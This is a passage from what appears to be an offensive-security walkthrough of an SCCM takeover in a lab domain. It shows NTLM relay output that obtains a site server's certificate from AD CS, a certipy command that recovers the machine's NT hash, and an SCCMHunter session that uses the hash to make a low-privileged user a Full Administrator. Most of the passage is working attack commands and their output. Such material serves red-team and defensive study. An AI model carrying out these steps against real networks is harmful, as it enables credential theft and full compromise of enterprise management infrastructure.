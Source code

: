     After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the cert enrollment service to request a certificate for the coercion target:

    ```
    [*] SMBD-Thread-5: Received connection from 192.168.57.15, attacking target http://adcs.aperture.local
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://adcs.aperture.local as APERTURE/SITE-SMS$ SUCCEED
    [*] SMBD-Thread-7: Received connection from 192.168.57.15, attacking target http://adcs.aperture.local
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://adcs.aperture.local as APERTURE/SITE-SMS$ SUCCEED
    [*] Generating CSR...
    [*] CSR generated!
    [*] Getting certificate...
    [*] GOT CERTIFICATE! ID 5
    [*] Writing certificate to ./SITE-SMS$.pfx
    [*] Certificate successfully written to file
    ```

5. Use `certipy` to recover the coerced target's NT hash:

    ```
    certipy auth -pfx SITE-SMS\$.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: site-sms$@aperture.local
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'site-sms.ccache'
    [*] Trying to retrieve NT hash for 'site-sms$'
    [*] Got hash for 'site-sms$@aperture.local': aad3b435b51404eeaad3b435b51404ee:0bce...0314
    ```

6. Use `SCCMHunter` to authenticate to an SMS Provider as the site server and grant a user the Full Administrator role:

```
# python3 sccmhunter.py admin -u SITE-SERVER\$ -p aad3b435b51404eeaad3b435b51404ee:0bce...0314 -ip SITE-SERVER.APERTURE.LOCAL
SCCMHunter v1.0.3 by @garrfoster
[16:27:23] INFO     [!] Enter help for extra shell commands
() C:\ >> show_admins
[16:27:28] INFO     Tasked SCCM to list current SMS Admins.
[16:27:29] INFO     Current Full Admin Users:
[16:27:29] INFO     SITE-SERVER\labadmin
[16:27:29] INFO     APERTURE\labadmin
() (C:\) >> get_user lowpriv
[16:27:47] INFO     [*] Collecting users...
[16:27:47] INFO     [+] User found.
[16:27:47] INFO     ------------------------------------------
                    DistinguishedName: CN=Low Priv,CN=Users,DC=APERTURE,DC=LOCAL
                    FullDomainName: APERTURE.LOCAL
                    FullUserName: Low Priv
                    Mail:
                    NetworkOperatingSystem: Windows NT
                    ResourceId: 2063597573
                    sid: S-1-5-21-1642199630-664550351-1777980924-34102
                    UniqueUserName: APERTURE\lowpriv
                    UserAccountControl: 66048
                    UserName: lowpriv
                    UserPrincipalName: lowpriv@APERTURE.LOCAL
                    ------------------------------------------
() (C:\) >> add_admin lowpriv S-1-5-21-1642199630-664550351-1777980924-34102
[16:28:01] INFO     Tasked SCCM to add lowpriv as an administrative user.
[16:28:02] INFO     [+] Successfully added lowpriv as an admin.
```